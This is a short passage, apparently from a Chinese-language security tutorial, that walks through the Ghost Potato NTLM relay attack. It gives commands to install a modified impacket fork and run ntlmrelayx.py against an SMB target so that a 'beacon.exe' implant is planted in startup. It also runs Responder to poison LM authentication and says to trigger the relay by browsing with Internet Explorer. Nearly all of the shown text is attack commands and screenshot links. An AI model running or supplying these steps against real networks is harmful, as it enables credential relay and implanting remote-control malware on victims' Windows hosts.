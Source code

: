 ```bash
cd impacket-ghostpotato
pip uninstall impacket
pip install .
cd examples
python3 ntlmrelayx.py -t smb://192.168.91.2 -smb2support --gpotato-startup beacon.exe(内容)
```

[![](assets/1698894308-74a866a50049f1f2eac30789a028da89.png)](https://storage.tttang.com/media/attachment/2022/04/24/dab81c3a-f3db-4b10-8261-09c5c552bc83.png)

```bash
responder -I eth0 --lm
```

使用 IE 浏览器进行访问

[![](assets/1698894308-a46501b92e493f7e3394c9a263ea2530.png)](https://storage.tttang.com/media/attachment/2022/04/24/5f15fff4-28b0-4b3b-9605-a70b2b16ed35.png)
